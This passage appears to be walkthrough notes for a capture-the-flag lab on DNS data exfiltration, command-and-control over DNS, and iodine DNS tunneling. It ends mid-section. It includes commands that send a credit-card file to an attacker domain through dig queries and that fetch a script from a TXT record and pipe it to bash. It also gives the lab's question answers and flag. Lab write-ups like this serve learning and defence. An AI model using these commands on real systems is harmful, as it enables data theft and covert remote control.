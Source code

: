 ```shell
#to fit into multiple DNS requests
#and concatenate it with subdomain name
#using dig to send it over DNS
cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash

#on attacker tcpdump, we have received the data
echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com" | cut -d"." -f1-8 | tr -d "." | base64 -d
#this gives us the data back in ascii form
```

```shell
#dns c2 communication

cat /tmp/script.sh | base64
#encode required script in base64

#now we can add the base64 representation
#as a TXT DNS record to the domain we control
#through the given web interface
#for flag.tunnel.com

dig +short -t TXT flag.tunnel.com

dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
#this gives us the flag
```

```markdown
1. What is the maximum length for the subdomain name (label)? - 63

2. The Fully Qualified FQDN domain name must not exceed ______ characters. - 255

3. Execute the C2 communication over the DNS protocol of the flag.tunnel.com. What is the flag? - THM{C-tw0-C0mmun1c4t10ns-0v3r-DN5}
```

## DNS Tunneling

```shell
#dns tunneling (tcp over dns)
#using iodine tool

#on attacker machine
sudo iodined -c -P thmpass 10.1.1.1/24 att.tunnel.com 
#run iodined in server-side
#this creates a new network interface dns0 for dns tunneling
#server ip is 10.1.1.1
#client ip is 10.1.1.2

#on JumpBox
sudo iodine -P thmpass att.tunnel.com
#iodine is client-side here

ifconfig

ssh thm@10.1.1.1
#ssh into attacker machine through dns0

ssh thm@10.1.1.2 -4 -f -N -D 1080
#ssh into background and -4 for IPv4 binding

#now on attacker machine
```